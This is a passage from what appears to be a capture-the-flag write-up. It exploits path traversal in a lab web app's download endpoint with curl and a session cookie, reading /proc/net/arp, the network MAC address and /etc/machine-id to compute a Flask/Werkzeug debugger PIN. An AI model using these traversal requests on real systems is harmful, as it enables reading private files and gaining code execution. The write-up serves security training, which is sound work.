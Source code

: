 My script looks like:

    
    
    probably_public_bits = [
        'www-data',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]
    

#### Private Bits

The next section is the list `private_bits`:

    
    
    private_bits = [
        '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
    ]
    

I’m going to switch to `curl` here for ease. I’ll need to use `--path-as-is`
so that `curl` doesn’t undo the `../`, and I’ll need the cookie, which I’ll
save in an env variable. I’ll need to get the MAC address. I can find that at
`/sys/class/net/[device]/address`. To get the device name, I’ll pull
`/proc/net/arp`:

    
    
    oxdf@hacky$ cookie="session=.eJwlzj0OwjAMQOG7ZGaIncQ_vUwVx7ZgbemEuDuV2N709H3Knkecz7K9jyseZX952cpMQegkZGndnMfEfqdWlYSIBPeqidw6rWU652CvyUiGzVFMqVWjlg6hstLMg5ciopvyjCHV2To1WUiTnIj53g_oQLEEpNyQ64zjr9Hy_QEv9zBO.ZMQS_Q.Z4LXfnoQS3utplGKkJ9ScRF8EMY"
    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/net/arp -s --path-as-is -b $cookie
    IP address       HW type     Flags       HW address            Mask     Device
    10.10.10.2       0x1         0x2         00:50:56:b9:1d:c2     *        eth0
    

The device is `eth0`, which I’ll use to get the MAC:

    
    
    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../sys/class/net/eth0/address -s --path-as-is -b $cookie
    00:50:56:b9:48:b5
    

The script needs this as an int, which I can use Python to convert:

    
    
    >>> int("00:50:56:b9:48:b5".replace(':',''), 16)
    345052367029
    

The next item is a combination of a couple files. First, I need `/etc/machine-
id`:

    
    
    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../etc/machine-id -s --path-as-is -b $cookie
    ed5b159560f54721827644bc9b220d00
    